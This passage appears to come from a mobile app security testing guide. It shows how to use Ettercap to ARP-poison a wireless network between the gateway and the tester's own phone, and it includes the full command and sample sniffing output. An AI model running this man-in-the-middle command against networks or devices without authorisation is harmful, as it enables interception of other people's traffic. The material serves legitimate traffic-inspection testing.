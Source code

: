 #### ARP Poisoning with Ettercap

Start ettercap with the following command and replace the first IP addresses with the network gateway in the wireless network and the second one with the one of your mobile device.

```shell
$ sudo ettercap -T -i en0 -M arp:remote /192.168.0.1// /192.168.0.105//
```

On the mobile phone start the browser and navigate to example.com, you should see output like the following:

```shell
ettercap 0.8.2 copyright 2001-2015 Ettercap Development Team

Listening on:
   en0 -> AC:BC:32:81:45:05
	  192.168.0.105/255.255.255.0
	  fe80::c2a:e80c:5108:f4d3/64

SSL dissection needs a valid 'redir_command_on' script in the etter.conf file
Privileges dropped to EUID 65534 EGID 65534...

  33 plugins
  42 protocol dissectors
  57 ports monitored
20388 mac vendor fingerprint
1766 tcp OS fingerprint
2182 known services

Scanning for merged targets (2 hosts)...

* |=========================================>| 100.00 %

2 hosts added to the hosts list...

ARP poisoning victims:

 GROUP 1 : 192.168.0.1 F8:E9:03:C7:D5:10

 GROUP 2 : 192.168.0.102 20:82:C0:DE:8F:09
Starting Unified sniffing...

Text only Interface activated...
Hit 'h' for inline help

Sun Jul  9 22:23:05 2017 [855399]
  :::0 --> ff02::1:ff11:998b:0 | SFR (0)


Sun Jul  9 22:23:10 2017 [736653]
TCP  172.217.26.78:443 --> 192.168.0.102:34127 | R (0)

Sun Jul  9 22:23:10 2017 [737483]
TCP  74.125.68.95:443 --> 192.168.0.102:35354 | R (0)
```
